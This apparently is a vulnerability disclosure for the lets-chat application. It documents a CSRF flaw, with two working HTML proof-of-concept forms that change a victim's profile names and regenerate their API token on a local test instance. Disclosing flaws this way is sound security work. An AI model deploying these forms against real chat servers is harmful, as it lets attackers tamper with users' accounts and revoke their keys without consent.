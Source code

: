 # Description

The `lets-chat` application is a simple `chat` used for `small teams`, and can be hosted locally in order to have a better control on it.
The chat however is vulnerable against a `POST-based CSRF` issue which occurs in the `/account/profile` endpoint and many others, leading to `personal information` change and `api key` revocation/generation.

# PoC

1. Install the chat using the `steps` described here:
2. Create a new `user` and login
3. Create a malicious file containing the following CSRF PoC: https://github.com/sdelements/lets-chat/wiki/Installation

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localtest.me:5000/account/profile" method="POST">
      <input type="hidden" name="display&#45;name" value="HACKED" />
      <input type="hidden" name="first&#45;name" value="HACKED;" />
      <input type="hidden" name="last&#45;name" value="HACKED" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

4. Victim opens the crafted file (many scenarios are plausible) and it's name/display name are changed

**Another POC for regenerating keys:**

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localtest.me:5000/account/token/generate" method="POST">
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

5. Opening this the `api key` created before will be `deleted` and another one created (invalidates previously connected applications)
